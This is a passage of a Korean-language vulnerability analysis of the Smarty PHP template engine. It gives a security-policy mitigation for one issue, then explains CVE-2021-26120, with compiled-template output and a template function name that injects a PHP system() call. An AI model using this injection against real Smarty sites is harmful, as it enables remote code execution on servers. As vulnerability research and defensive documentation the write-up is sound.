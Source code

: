 ### Mitigation

`$smarty.template_object` 에 접근하는 것을 방지하기 위해 보안 정책의 `disabled_special_smarty_vars` 속성에 `template_object` 문자열을 포함하도록 설정할 수 있습니다. (본 문서를 작성할 당시 이 기능은 공식 문서 어디에도 나와있지 않았습니다.)

```php
...
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy->disabled_special_smarty_vars = array("template_object");
$smarty->enableSecurity($my_security_policy);
...
```

# CVE-2021-26120

## Vulnerability Analysis & Exploitation

본 취약점의 근본 원인은 템플릿 구문 컴파일 시 `[Smarty_Internal_Runtime_TplFunction` 클래스](https://github.com/smarty-php/smarty/blob/v3.1.38/libs/sysplugins/smarty_internal_runtime_tplfunction.php)에서 템플릿 함수 이름을 올바르게 필터링 하지 않는 점입니다.

아래 코드를 예제로 봅시다.

```php
<?php
include_once('./smarty-3.1.38/libs/Smarty.class.php');
$smarty = new Smarty();
$smarty->display('string:{function name="test"}{/function}');
```

위 PHP 코드가 띄운 웹 페이지에 접속하면 컴파일러가 아래와 같은 컴파일된 템플릿 파일을 생성하는 것을 확인할 수 있습니다.

```php
<?php
/* Smarty version 3.1.38, created on 2021-06-20 21:47:25
  from 'aed233e3cf9592ad67c2ee7e6022bb543f60b642' */
...
/* smarty_template_function_test_63225500060d019dd8ab132_31447301 */
if (!function_exists('smarty_template_function_test_63225500060d019dd8ab132_31447301')) {
function smarty_template_function_test_63225500060d019dd8ab132_31447301(Smarty_Internal_Template $_smarty_tpl,$params) {  // 작은 따옴표로 감싸여지지 않은 채 `test` 문자열 삽입됨
foreach ($params as $key => $value) {
$_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
}
}}
/*/ smarty_template_function_test_63225500060d019dd8ab132_31447301 */
}
```

`name` 으로 준 `test` 라는 문자열이 생성된 코드에 수 차례 삽입되어 있습니다. 주목할 점은 작은 따옴표로 감싸져 있지 않은 부분입니다.

만일 `name` 으로 `rce(){};system("id");function`   문자열을 준다면 아래와 같은 코드가 생성될 것입니다.

```php
...
function smarty_template_function_rce(){};system("id");function _63225500060d019dd8ab132_31447301(Smarty_Internal_Template $_smarty_tpl,$params) {
...
}
```

